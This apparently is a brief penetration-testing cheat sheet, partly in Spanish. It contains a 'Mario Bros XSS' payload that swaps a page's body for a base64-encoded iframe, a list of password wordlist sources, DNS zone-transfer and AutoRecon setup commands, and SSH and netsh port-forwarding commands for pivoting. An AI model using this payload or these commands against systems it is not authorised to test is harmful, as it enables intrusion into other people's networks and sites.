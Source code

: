       Mario Bros XSS
         <iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>
         <input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
         
  
WORDLISTS
..........

PacketStorm
SecList
cotse
DefaultPassword
RouterPassword
Pastebin
RainbowCrack

ENUMERACION WEB
................
DNS
   dig axfr [dominio]
   nslookup
whatweb [URL]
curl --> https://www.keycdn.com/support/popular-curl-examples


AUTORECON TOOL
...............
sudo apt update
sudo apt install python3
sudo apt install python3-pip
sudo apt install seclists
sudo apt install curl dnsrecon enum4linux feroxbuster gobuster impacket-scripts nbtscan nikto nmap onesixtyone oscanner redis-tools smbclient smbmap snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf
sudo apt install python3-venv
python3 -m pip install --user pipx
python3 -m pipx ensurepath
[close terminal]
[open terminal]
pipx install git+https://github.com/Tib3rius/AutoRecon.git
sudo env "PATH=$PATH" autorecon [IP]

PIVOTING
.........
SSH Local Port Forwarding:
     ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
     ssh -L source_port:forward_to_host:destination_port via_host

SSH Remote Port Forwarding:
     ssh -R sourcePort:HostToForwardTrafficTo:onPort connectToHost
     ssh -R PORT:IP:port root@ip

Windows Netsh:
     netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
